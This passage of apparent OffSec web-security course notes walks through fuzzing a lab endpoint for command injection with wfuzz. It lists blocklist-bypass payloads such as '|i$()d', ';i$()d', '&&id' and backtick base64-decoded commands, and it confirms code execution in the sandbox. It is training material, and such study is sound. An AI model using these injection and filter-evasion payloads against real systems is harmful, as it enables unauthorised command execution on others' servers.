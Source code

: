 We have a _lot_ of failed attempts that give us a response length of 1156 bytes. Let's hide these requests by providing wfuzz with the parameter-value combination of `--hh 1156`.

```bash
kali@kali:~$ wfuzz -c -z file,/home/kali/SUT/OSWA/command_injection_custom.txt --hc 404 --hh 1156 http://ci-sandbox:80/php/blocklisted.php?ip=127.0.0.1FUZZ

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://ci-sandbox:80/php/blocklisted.php?ip=127.0.0.1FUZZ
Total requests: 21

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                 
=====================================================================
000000001:   200        68 L     117 W      1113 Ch     "bogus"                                       
000000005:   200        68 L     117 W      1113 Ch     "i$()d"                                 
000000008:   200        69 L     120 W      1167 Ch     "FAIL||i$()d"        
000000020:   200        69 L     120 W      1167 Ch     "FAIL_INTENT|`echo 'aWQK' |base64 -d`"       
000000021:   200        69 L     120 W      1167 Ch     "FAIL_INTENT||`echo 'aWQK' |base64 -d`"
000000010:   200        78 L     184 W      1593 Ch     "&id"                                        
000000009:   200        78 L     184 W      1593 Ch     "&&id"                                      
000000007:   200        69 L     120 W      1167 Ch     "|i$()d"                                      
000000006:   200        79 L     187 W      1647 Ch     ";i$()d"                  
000000019:   200        79 L     187 W      1647 Ch     ";`echo 'aWQK' |base64 -d`"

Total time: 0
Processed Requests: 21
Filtered Requests: 11
Requests/sec.: 0
```

Nice! The length of 1167 bytes seems promising. After suppressing a known "fail size" or "bogus" response, 1167 bytes seems to be the most common occurrence in our output. We're left with a few that we could attempt separately within our Web Browser.

Let's load the payload of `"|i$()d"` from our Wfuzz output into our browser and note the response.

```bash
http://ci-sandbox/php/blocklisted.php?ip=127.0.0.1|i$()d
```
![[Pasted image 20241030152621.png]]

Great! We have code execution and managed to bypass those blocklisted strings.

Before we conclude, let's examine one other possible attack vector to bypass blocklisted strings entirely if a backtick (`) character is permitted. This can be achieved by using _base64 encoding_.[1](https://portal.offsec.com/courses/web-200-28380/learning/command-injection-35143/dealing-with-common-protections-35191/typical-input-sanitization-blocklisted-strings-bypass-35151#fn-local_id_268-1)
